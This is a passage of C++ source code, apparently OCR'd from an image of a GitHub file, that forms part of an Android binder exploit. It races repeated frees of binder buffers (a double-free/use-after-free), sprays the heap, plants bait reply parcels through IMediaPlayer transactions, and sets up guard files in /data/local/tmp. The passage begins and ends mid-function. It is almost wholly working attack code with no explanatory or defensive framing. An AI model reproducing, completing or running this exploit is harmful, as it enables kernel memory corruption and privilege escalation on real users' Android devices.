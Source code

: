 ```
	if (global_parcel_index % 200 == 0)
	{
		stop_watch();
		usleep(100);
		begin_watch();
		usleep(100);
	}
}

void raceWin(int replyParcelIndex)
{
	pthread_mutex_lock(&alloc_mutex);
	bc_free_buffer(replyParcelIndex);
	global_parcel_index = replyParcelIndex;
	pthread_cond_signal(&alloc_cond);
	pthread_mutex_unlock(&alloc_mutex);
	usleep(450);
	bc_free_buffer(replyParcelIndex);
	bc_free_buffer(replyParcelIndex - 1);
	heap_spray_times();
	restartWatch();
} 

void raceTimes()
{
	for(int i = BAIT - 1; i > 0; i--)
	{
		raceWin(i);
	}
}

void put_baits()
{
	//Avoid the reply data to be released by "~Parcel()"
	for (int i = 0; i < BAIT; i++)
	{
		dataArray[i].writeInterfaceToken(String16("android.media.IMediaPlayer"));
		IInterface::asBinder(mediaPlayer)->transact(GET_PLAYBACK_SETTINGS, dataArray[i], &replyArray[i], 0);
		gDataArray[i] = replyArray[i].data();
		/*for (int j = 0; j < (int)replyArray[i].dataSize(); j++)
		{
			printf("[+] gDataArray[%d][%d], data:%x\n", i, j, gDataArray[i][j]);
		}*/
		//printf("index:%d, user_addr:%p\n", i, gDataArray[i]);
	}
}

void createAllocThread()
{
	pthread_mutex_init(&alloc_mutex, NULL);
	pthread_cond_init (&alloc_cond, NULL);
	pthread_t id_transaction;
        pthread_create(&id_transaction,NULL, bc_transaction, NULL);
}

void create_test_dir()
{
    	system("touch /data/local/tmp/test_dir/fffdfffdfffdfffd");
	system("touch /data/local/tmp/test_dir/abcd.txt");
	fd_guard_heap = open("/data/local/tmp/test_dir/fffdfffdfffdfffd", O_WRONLY); 
	if (fd_guard_heap < 0)
	{
```